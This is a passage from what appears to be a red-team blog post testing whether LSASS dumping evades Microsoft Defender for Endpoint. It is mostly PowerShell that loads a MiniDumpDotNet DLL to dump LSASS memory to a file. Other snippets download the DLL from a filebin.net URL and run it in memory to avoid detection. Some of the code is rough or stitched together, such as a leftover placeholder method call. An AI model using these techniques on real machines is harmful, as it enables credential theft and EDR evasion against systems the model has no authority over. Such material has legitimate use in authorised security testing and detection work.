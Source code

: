 
Noting for any alerts, no new alerts are found:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230823180900.png)

<a name="powershell-and-dll-execution-against-edr-mde-minidumpdotnet"></a>
### PowerShell and dll execution against EDR (MDE) - MiniDumpDotNet

As above, compile seperately the project as a Class Library (.dll) and copy the .dll to the target `testmachine` to test execution against MDE.

Spawn a new PowerShell prompt and attempt the load the .dll into the PowerShell namespace and invoke the `DumpPid` sub function from the `MiniDump.MiniDump` entry point with the appropriate LSASS PID and .dmp file name as follows: 

```
[string]$assemblyPath = "C:\Tools\minidumpdotnet.dll"
Add-Type -Path $assemblyPath
[MiniDump.MiniDump]$a = New-Object -TypeName 'MiniDump.MiniDump'
$a.DumpPid(848, "C:\Tools\psh_dump.dmp")
```

```

$data = (New-Object System.Net.WebClient).DownloadData('http://filebin.net/opie5otqxjmpi68z/minidumpdotnet.dll')
$assem = [System.Reflection.Assembly]::Load($data)

Add-Type -TypeDefinition $assem
[MiniDump.MiniDump]$a = New-Object -TypeName 'MiniDump.MiniDump'
$a.DumpPid(836, "C:\users\Administrator\Desktop\psh_dump.dmp")

$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("AwesomeFunctionName")
$method.Invoke(0, $null)

# Define the URL of the DLL on the web server
$webDllUrl = "https://filebin.net/opie5otqxjmpi68z/minidumpdotnet.dll"

# Download the DLL from the web server and convert it to a byte array
$webResponse = Invoke-WebRequest -Uri $webDllUrl -UseBasicParsing
$assemblyBytes = $webResponse.RawContent

# Load the DLL from memory using Add-Type
Add-Type -TypeDefinition $assemblyBytes

# Use the MiniDump class from the loaded assembly
[MiniDump.MiniDump]$a = New-Object -TypeName 'MiniDump.MiniDump'

# Perform your desired actions
$a.DumpPid(836, "C:\users\Administrator\Desktop\psh_dump.dmp")
```


[+]: Shellcode located at c7160